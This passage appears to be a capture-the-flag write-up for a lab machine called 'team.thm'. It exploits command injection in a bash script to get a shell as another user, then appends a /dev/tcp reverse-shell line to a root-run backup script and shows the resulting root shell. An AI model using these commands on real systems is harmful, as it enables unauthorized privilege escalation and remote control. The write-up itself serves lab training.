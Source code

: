 So I'm able to run the "admin_checks" file as a "gyles" user. 
````
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
````

The file is a simple bash script that has a problem with error handling. 
"read -p "Enter 'date' to timestamp the file: " error" line expects input "date" but if you input anything else it will execute it as a command.
So if I put "/bin/bash" it will execute it and as I'm using the script as "gyles" it will spawn a shell as Gyles!
````
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
teReading stats..
Enter name of person backing up the data: test1
Enter 'date' to timestamp the file: /bin/bash
The Date is test2
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
````

Using "sudo -l" requires a password, which I don't have but the user is part of the "admin" group.
````
find / -group admin -type f 2>/dev/null
````
Searches if group "admin" has any files that belong to the group.
There is one  "/usr/local/bin/main_backup.sh"
````
cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
````

The script is a backup script so it probably runs every once and a while.
As I can edit the file I can echo reverse shell into the file(or use nano etc.).
"echo "/bin/bash -i >& /dev/tcp/10.10.10.10/1234 0>&1" >> /usr/local/bin/main_backup.sh"

I can then start a ncat listener and should get a reverse shell as a root user!
````
kali@kali:~$ ncat -lvnp 1234
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.28.97:50120.
bash: cannot set terminal process group (1384): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# whoami
whoami
root
root@TEAM:~#
````
